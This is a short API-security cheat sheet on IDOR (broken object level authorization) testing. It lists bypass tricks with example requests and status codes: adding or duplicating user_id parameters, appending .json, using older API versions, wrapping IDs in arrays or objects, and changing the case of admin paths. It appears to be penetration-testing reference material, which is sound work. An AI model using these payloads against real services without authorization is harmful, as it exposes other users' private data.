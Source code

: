IDOR API TESTING

**API1:2019 Broken Object Level Authorization**

- Add parameter to the endpoint

```html
GET /api_v1/messages --> 401
vs 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

**Note**: Useful tool to bruteforce common IDOR URL parameter names [Arjun](https://github.com/s0md3v/Arjun).


- HTTP Parameter pollution

```html
GET /api_v1/messages?user_id=VICTIM_ID --> 401
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

- Add .json to the endpoint

```html
/user_data/2341 --> 401 
/user_data/2341.json --> 200 
```

- Test on outdated API Versions

```html
/v3/users_data/1234 --> 403 
/v1/users_data/1234 --> 200 
```

Wrap the ID with an array.

```html
{“id”:111} --> 401 
{“id”:[111]} --> 200 
```

Wrap the ID with a JSON object:

```html
{“id”:111} --> 401 

{“id”:{“id”:111}} --> 200 
```

JSON Parameter Pollution:

```html
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

MFLAC:

```html
GET /admin/profile --> 401 

GET /ADMIN/profile --> 200 
```
